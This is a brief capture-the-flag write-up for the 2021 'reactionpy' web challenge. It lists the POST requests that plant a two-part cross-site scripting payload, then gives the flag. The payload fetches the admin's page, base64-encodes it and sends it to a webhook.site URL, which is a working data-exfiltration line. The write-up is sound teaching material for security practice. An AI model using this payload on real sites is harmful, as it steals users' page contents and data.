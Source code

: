 **Challenge:** https://reactionpy.2021.chall.actf.co/ | server.py

Reset: POST /reset 

Restart: POST name=welcome&cfg=a

Prepare the captcha: https://reactionpy.2021.chall.actf.co/

  Reset: POST /reset

  New post: POST /newcomp `name=freq&cfg=<script>/*`


  New post: POST /newcomp 
  ```
  name=text&cfg=**/;fetch(`/?fakeuser=admin`).then(function(a){a.text().then(function(b){window.location=`https://webhook.site/09a09682-ba52-4dfe-9e50-fd433a15fa14/?data=`%2bencodeURIComponent(btoa(b))})});//`
  ```

Submit the host with the catptcha previusly resolved: POST /contest.

**Flag:**  actf{two_part_xss_is_double_the_parts_of_one_part_xss};
